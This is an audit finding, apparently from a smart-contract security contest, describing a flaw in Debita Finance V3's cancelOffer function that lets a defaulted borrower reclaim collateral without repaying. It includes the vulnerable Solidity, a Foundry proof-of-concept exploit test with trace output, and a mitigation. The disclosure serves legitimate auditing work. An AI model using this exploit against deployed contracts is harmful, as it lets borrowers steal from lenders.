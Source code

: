 Furry Cloud Cod

High

# A borrower can still reclaim their collateral without repaying their debt after the debt repayment period has elasped

## Impact
### Summary 
Whenever a borrower receives a loan from the protocol, they are expected to repay the loan within the stipulated loan duration. Failure to repay any loan within the stipulated time amounts to forfeiture of the collateral by the borrower. The lender can then claim the collateral after the loan duration has elapsed with the borrower failing to repay their debt.

However, a borrower can call the `DebitaBorrowOffer-Implementation::cancelOffer` function after the expiration of the loan repayment duration and still reclaim their collateral despite not repaying their loans. This leads to loss of funds on the part of lenders.

### Vulnerability Details
This vulnerability exists because the `DebitaBorrowOffer-Implementation::cancelOffer` function has no checks for whether the time to cancel an offer has passed or not. In essence, the `DebitaBorrowOffer-Implementation::cancelOffer` function can be called at all times in so far as it is called by a borrow who created a borrow order.

Here is a github link to the function in question https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaBorrowOffer-Implementation.sol#L188-L218 and can be view in the snippet below

```javascript
    function cancelOffer() public onlyOwner nonReentrant {
        BorrowInfo memory m_borrowInformation = getBorrowInfo();
        uint availableAmount = m_borrowInformation.availableAmount;
        require(availableAmount > 0, "No available amount");
        // set available amount to 0
        // set isActive to false
        borrowInformation.availableAmount = 0;
        isActive = false;


        // transfer collateral back to owner
        if (m_borrowInformation.isNFT) {
            if (m_borrowInformation.availableAmount > 0) {
                IERC721(m_borrowInformation.collateral).transferFrom(
                    address(this),
                    msg.sender,
                    m_borrowInformation.receiptID
                );
            }
        } else {
            SafeERC20.safeTransfer(
                IERC20(m_borrowInformation.collateral),
                msg.sender,
                availableAmount
            );
        }


        // emit canceled event on factory


        IDBOFactory(factoryContract).deleteBorrowOrder(address(this));
        IDBOFactory(factoryContract).emitDelete(address(this));
    }
```

### Impact

Because the `DebitaBorrowOffer-Implementation::cancelOffer` function can be called at any time by the borrower, a borrower who sees that they have defaulted in repaying their loans and thier repayment time has elapsed will call the `DebitaBorrowOffer-Implementation::cancelOffer` function, exploring it as a back door to reclaim their collateral which legitimately has been forfeited by them by the virtue of defaulting in repaying their loans.

Thus, the lenders are cheated and they end up loosing funds they borrowed to the borrower in the form of loan.

## Proof of Concept
1. A malicious borrower sees that there are lendorders available on the protocol.
2. The maalicious borrower creates a borrow order
3. The malicious borrower then calls the `DebitaV3Aggregator::matchOffersV3` function so that they receive the loans they seek as specified in their borrow order
4. The malicious borrower fails to repay their loan on time and realizes that they have forfeited their collateral as a result. The borrow now calls the `DebitaBorrowOffer-Implementation::cancelOffer` function and reclaims their collateral without repaying the debt the owe.

<details>
<summary>PoC</summary>
Place the following code into `MultiplePrinciples.t.sol`.

```javascript
function matchOffers_Spomaria(address _addr) public returns(address _borrowOrderAddr){
        address[] memory lendOrders = allDynamicData.getDynamicAddressArray(3);
        uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(
            3
        );
        uint[] memory porcentageOfRatioPerLendOrder = allDynamicData
            .getDynamicUintArray(3);
        address[] memory principles = allDynamicData.getDynamicAddressArray(2);
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
            .getDynamicUintArray(3);
        uint[] memory indexForCollateral_LendOrder = allDynamicData
            .getDynamicUintArray(3);
        uint[] memory indexPrinciple_LendOrder = allDynamicData
            .getDynamicUintArray(3);

        lendOrders[0] = address(LendOrder);
        lendAmountPerOrder[0] = 25e17;
        porcentageOfRatioPerLendOrder[0] = 10000;
        principles[0] = AERO;
        principles[1] = wETH;

        // 0.1e18 --> 1e18 collateral

        lendOrders[1] = address(SecondLendOrder);
        lendAmountPerOrder[1] = 38e17;
        porcentageOfRatioPerLendOrder[1] = 10000;

        indexForPrinciple_BorrowOrder[1] = 1;
        indexPrinciple_LendOrder[1] = 1;

        lendOrders[2] = address(ThirdLendOrder);
        lendAmountPerOrder[2] = 20e17;
        porcentageOfRatioPerLendOrder[2] = 10000;

        indexForPrinciple_BorrowOrder[2] = 1;
        indexPrinciple_LendOrder[2] = 1;

        
        
        vm.startPrank(_addr);

        IERC20(AERO).approve(address(DBOFactoryContract), 100e18);

        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(2);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(2);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(2);
        uint[] memory ratioLenders = allDynamicData.getDynamicUintArray(1);
        uint[] memory ltvsLenders = allDynamicData.getDynamicUintArray(1);
        bool[] memory oraclesActivatedLenders = allDynamicData
            .getDynamicBoolArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(2);
        address[] memory acceptedCollaterals = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesCollateral = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(2);

        ratio[0] = 5e17;
        acceptedPrinciples[0] = AERO;
        acceptedCollaterals[0] = USDC;
        oraclesActivated[0] = false;

        ratio[1] = 2e17;
        acceptedPrinciples[1] = wETH;
        oraclesActivated[1] = false;

        USDCContract.approve(address(DBOFactoryContract), 101e18);
        
        _borrowOrderAddr = DBOFactoryContract.createBorrowOrder(
            oraclesActivated,
            ltvs,
            1400,
            8640000,
            acceptedPrinciples,
            USDC,
            false,
            0,
            oraclesPrinciples,
            ratio,
            address(0x0),
            100e18
        );

        
        address loan = DebitaV3AggregatorContract.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            address(_borrowOrderAddr),
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        
        vm.stopPrank();

        DebitaV3LoanContract = DebitaV3Loan(loan);
    } 


    function test_SpomariaPoC_BorrowerCanDeleteBorrowOrderAfterFailureToRepayLoan() public {

        address malBorrower = makeAddr("attacker");

        deal(AERO, malBorrower, 1000e18, false);
        deal(USDC, malBorrower, 1000e18, false);

        uint256 malBorrowerAEROInitBal = IERC20(AERO).balanceOf(malBorrower);
        uint256 malBorrowerUSDCInitBal = IERC20(USDC).balanceOf(malBorrower);
        uint256 malBorrowerWETHInitBal = IERC20(wETH).balanceOf(malBorrower);

        assertEq(malBorrowerAEROInitBal, 1000e18);
        assertEq(malBorrowerUSDCInitBal, 1000e18);
        assertEq(malBorrowerWETHInitBal, 0);

        
        address malBorrowOrderAddress = matchOffers_Spomaria(malBorrower);

        uint256 malBorrowerAEROMidBal = IERC20(AERO).balanceOf(malBorrower);
        uint256 malBorrowerUSDCMidBal = IERC20(USDC).balanceOf(malBorrower);
        uint256 malBorrowerWETHMidBal = IERC20(wETH).balanceOf(malBorrower);

        assertGt(malBorrowerWETHMidBal, malBorrowerWETHInitBal);
        assertGt(malBorrowerAEROMidBal, malBorrowerAEROInitBal);
        assertEq(malBorrowerUSDCMidBal, malBorrowerUSDCInitBal - 100e18);

        // now attacker deletes the borrow order after taking a loan
        // vm.startPrank(malBorrower);
        // DBOImplementation(malBorrowOrderAddress).cancelOffer();
        // vm.stopPrank();

        
        // let another borrower act honestly and see what their balance will be
                
        DebitaV3Loan.LoanData memory loanData = DebitaV3LoanContract
            .getLoanData();
        uint[] memory indexes = allDynamicData.getDynamicUintArray(3);
        indexes[0] = 0;
        indexes[1] = 1;
        indexes[2] = 2;

        // uint[] memory indexs = allDynamicData.getDynamicUintArray(1);
        // indexes[0] = 2;

        vm.startPrank(malBorrower);
        deal(wETH, malBorrower, 6e18, false);
        AEROContract.approve(address(DebitaV3LoanContract), 10e18);
        wETHContract.approve(address(DebitaV3LoanContract), 10e18);

        vm.warp(block.timestamp + 8640010); 
        vm.roll(10);
        vm.expectRevert("Deadline passed to pay Debt");
        DebitaV3LoanContract.payDebt(indexes);

        DBOImplementation(malBorrowOrderAddress).cancelOffer();
        vm.stopPrank();

        // assert that the malicious user has more tokens than the honest user
        uint256 malBorrowerAEROFinalBal = IERC20(AERO).balanceOf(malBorrower);
        uint256 malBorrowerUSDCFinalBal = IERC20(USDC).balanceOf(malBorrower);
        uint256 malBorrowerWETHFinalBal = IERC20(wETH).balanceOf(malBorrower);

        assertGt(malBorrowerWETHFinalBal, malBorrowerWETHInitBal);
        assertGt(malBorrowerAEROFinalBal, malBorrowerAEROInitBal);
        assertGt(malBorrowerUSDCFinalBal, malBorrowerUSDCMidBal);   

    }  
```

Now run `forge test --match-test test_SpomariaPoC_BorrowerCanDeleteBorrowOrderAfterFailureToRepayLoan -vvvv`

Output:
```javascript
.
.
.
    ├─ [563] ERC20Mock::balanceOf(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]) [staticcall]
    │   └─ ← [Return] 1002483000000000000000 [1.002e21]
    ├─ [563] ERC20Mock::balanceOf(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]) [staticcall]
    │   └─ ← [Return] 965500000000000000000 [9.655e20]
    ├─ [563] ERC20Mock::balanceOf(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]) [staticcall]
    │   └─ ← [Return] 6000000000000000000 [6e18]
    ├─ [0] VM::assertGt(6000000000000000000 [6e18], 0) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertGt(1002483000000000000000 [1.002e21], 1000000000000000000000 [1e21]) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertGt(965500000000000000000 [9.655e20], 900000000000000000000 [9e20]) [staticcall]
    │   └─ ← [Return] 
    └─ ← [Return] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 207.86ms (48.57ms CPU time)

Ran 1 test suite in 1.79s (207.86ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

</details>

## Tools Used

Manual Review and Foundry


## Recommended Mitigation Steps

Consider modifying the `DebitaBorrowOffer-Implementation::cancelOffer` function to prevent the function from being called at just any time. The `DebitaBorrowOffer-Implementation::cancelOffer` function should not be callable if the borrower has defaulted in paying their debt. This way, a borrow must repay their loans or have their collaterals siezed by the protocol.
